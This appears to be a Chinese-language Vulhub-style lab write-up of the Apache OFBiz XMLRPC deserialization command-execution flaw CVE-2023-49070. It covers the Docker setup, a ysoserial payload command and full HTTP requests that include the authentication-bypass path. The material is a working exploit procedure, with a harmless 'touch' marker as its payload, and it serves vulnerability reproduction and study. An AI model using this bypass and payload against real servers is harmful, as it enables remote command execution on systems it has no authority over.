 # Apache OfBiz 反序列化命令执行漏洞 CVE-2023-49070

## 漏洞描述

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

在Apache OFBiz 17.12.03版本及以前存在一处XMLRPC导致的反序列漏洞，官方于后续的版本中对相关接口进行加固修复漏洞，但修复方法存在绕过问题（CVE-2023-49070），攻击者仍然可以利用反序列化漏洞在目标服务器中执行任意命令。

Apache OFBiz官方于18.12.10中彻底删除xmlrpc接口修复该漏洞。

参考链接：

- [https://www.openwall.com/lists/oss-security/2023/12/04/2](https://www.openwall.com/lists/oss-security/2023/12/04/2)

## 环境搭建

Vulhub 执行如下命令启动一个Apache OfBiz 18.12.09版本：

```
docker compose up -d
```

在等待数分钟后，访问`https://your-ip:8443/accounting`查看到登录页面，说明环境已启动成功。

如果是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain 60.204.216.3 not accepted to prevent host header injection. You need to set host-headers-allowed property in security.properties file.
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20240104105720312.png)

## 漏洞复现

漏洞复现方式与[CVE-2020-9496](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496)相似，只是需要绕过官方对于漏洞的补丁限制。

首先，仍然使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212094740031.png)

使用CVE-2020-9496中的复现方法发送数据包，已经无法成功进入XMLRPC的解析流程：

> Host: localhost

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212095704854.png)

把Path修改成`/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y`即可绕过限制：

> Host: localhost

```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212095750567.png)

进入容器中，可见`touch /tmp/success`已成功执行：

![](images/Apache%20OfBiz%20反序列化命令执行漏洞%20CVE-2023-49070/image-20231212095901069.png)
